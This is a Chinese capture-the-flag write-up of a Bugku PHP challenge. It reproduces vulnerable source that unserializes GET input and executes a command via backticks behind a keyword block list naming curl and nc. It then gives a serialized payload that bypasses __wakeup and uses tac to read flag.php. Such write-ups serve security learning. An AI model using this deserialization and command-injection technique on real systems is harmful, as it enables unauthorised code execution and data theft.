


来源:bugku

 

访问页面。空白。查看源代码。发现以下信息


<!-- YmFja3Vwcw== -->

 

解密，得到backups提示。

 

dirsearch扫描目录



 

访问bak文件，下载。得到以下

 ```php
 <?php
 
 header("Content-Type: text/html;charset=utf-8");
 
 error_reporting(0);
 
 echo "<!-- YmFja3Vwcw== -->";
 
 class ctf
 
 {
 
   protected $username = 'hack';
 
   protected $cmd = 'NULL';
 
   public function __construct($username,$cmd)
 
   {
 
 ​    $this->username = $username;
 
 ​    $this->cmd = $cmd;
 
   }
 
   function __wakeup()
 
   {
 
 ​    $this->username = 'guest';
 
   }
 
   function __destruct()
 
   {
 
 ​    if(preg_match("/cat|more|tail|less|head|curl|nc|strings|sort|echo/i", $this->cmd))
 
 ​    {
 
 ​      exit('</br>flag能让你这么容易拿到吗？<br>');
 
 ​    }
 
 ​    if ($this->username === 'admin')
 
 ​    {
 
 ​      // echo "<br>right!<br>";
 
 ​      $a = `$this->cmd`;
 
 ​      var_dump($a);
 
 ​    }else
 
 ​    {
 
 ​      echo "</br>给你个安慰奖吧，hhh！</br>";
 
 ​      die();
 
 ​    }
 
   }
 
 }
 
   $select = $_GET['code'];
 
   $res=unserialize(@$select);
 
 ?> 
 ```

从可控制的传参进行跟踪。

$_GET['code'] -> unserialize -> __wakeup() -> __destruct() -> preg_match() -> if username === admin -> var_dump($cmd)

 

而__wakeup()中会给username赋值guest。会影响后面判断(if username === admin)。所以利用反序列化特性。绕过__wakeup()

- 若在序列化后的字符串中，改动类对象的数量，令其数量大于类对象实际含有的元素个数。即可绕过__wakeup()执行

 

preg_match()过滤了众多函数。没有过滤ls函数。查看发现有flag.php。过滤了cat，但是没有过滤tac。查看可以发现flag.php里面的内容

 

最后对code传参

?code=O:3:"ctf":3:{s:11:"%00*%00username";s:5:"admin";s:6:"%00*%00cmd";s:12:"tac%20flag.php"

- 注意protected声明的对象，序列化时要在对象名前加上 /0*/0 ，在url编码中, /0 即为 %00

 



 